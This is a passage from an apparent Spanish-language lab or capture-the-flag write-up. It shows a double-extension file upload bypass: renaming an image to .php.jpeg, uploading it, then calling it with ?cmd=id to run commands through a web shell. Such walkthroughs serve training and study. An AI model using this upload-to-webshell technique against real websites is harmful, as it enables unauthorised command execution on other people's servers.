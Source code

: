 >Cambiamos el nombre de la foto para que tenga el .php

```bash
mv camel1.jpeg camel1.php.jpeg
```

![[Pasted image 20250619160533.png]](Networked_images/20250619160533.png)

### Subimos la foto a la web

>Igual que antes vamos a /upload.php subimos la foto y comprobamos que esta en /photos.php

![[Pasted image 20250619160709.png]](Networked_images/20250619160709.png)

### Tratamos de ejecutar comandos por GET

>Vamos a /uploads/10_10_14_49.php.jpeg

y tratamos de inyectar código

```bash
/uploads/10_10_14_49.php.jpeg?cmd=id
```
